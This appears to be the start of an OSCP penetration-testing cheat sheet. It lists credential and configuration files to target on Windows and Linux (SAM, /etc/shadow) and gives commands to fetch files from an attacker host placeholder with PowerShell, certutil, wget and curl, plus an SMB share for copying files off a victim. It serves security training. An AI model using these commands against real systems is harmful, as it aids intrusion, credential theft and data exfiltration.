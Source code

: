 # OSCP Cheat sheet

## 1\. General Information

### Important Locations

#### **Windows**

Common configuration, logs, and password-related files:

```plain
C:/Users/Administrator/NTUser.dat  
C:/apache/logs/access.log  
C:/WINDOWS/Repair/SAM  
C:/Windows/system32/config/security.sav  
```

#### **Linux**

Essential system and password-related files:

```plain
/etc/passwd  
/etc/shadow  
/etc/apache2/apache2.conf  
/root/anaconda-ks.cfg  
```

* * *

### File Transfers

#### **Downloading Files on Windows**

```powershell
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\temp\<FILE>
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

#### **Downloading Files on Linux**

```bash
wget http://<LHOST>/<FILE>
curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

#### **Windows to Kali Transfers**

```bash
kali> impacket-smbserver -smb2support <sharename> .
win> copy file \\KaliIP\sharename
```

* * *
